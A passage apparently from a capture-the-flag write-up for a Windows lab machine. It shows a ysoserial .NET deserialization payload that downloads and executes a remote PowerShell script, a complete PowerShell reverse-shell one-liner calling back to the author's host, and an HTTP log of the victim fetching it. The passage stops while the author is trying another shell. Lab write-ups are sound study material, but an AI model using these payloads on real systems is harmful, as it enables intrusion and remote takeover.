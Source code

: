 My Windows VM did not like me trying to base64 encode this string, since using IEX to execute things from the web has been deemed to be only used for malicious purposes :P

```powershell
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> .\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.172:8090/test.ps1')"
AAEAAAD/////AQAAAAAAAAAMA
```

I was able to compile my payload after disabling my antivirus

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.172",8091);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

My powershell reverse shell script

```
::ffff:10.10.10.219 - - [23/Apr/2021 21:21:53] "GET /test.ps1 HTTP/1.1" 200 -
```

I executed my payload, which downloaded my powershell script, but unfortunately did not seem to work as I did not get any connections to my netcat listener.  I decided to try checking if I could get the script to ping my machine

![Wireshark output showing that I could successfully ping my machine from the victim](/assets/img/sharp-16-ping-success.png)

I was able to sucessfully execute the script on the remote machine, so I tried finding a different reverse shell

